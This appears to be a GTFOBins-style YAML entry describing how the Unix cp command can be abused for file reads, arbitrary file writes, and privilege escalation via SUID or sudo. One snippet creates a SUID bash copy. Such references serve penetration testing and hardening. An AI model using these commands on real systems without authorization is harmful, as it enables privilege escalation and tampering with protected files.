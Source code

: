 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | cp /dev/stdin "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo "DATA" | ./cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
    - description: This can copy cp attributes and permissions to create a new file with SUID privileges like bash
      code: |
        cp /bin/bash /tmp/bash
        cp --attributes-only --preserve=all `which cp` /tmp/bash
  sudo:
    - code: |
        LFILE=file_to_write
        echo "DATA" | sudo cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
---
```

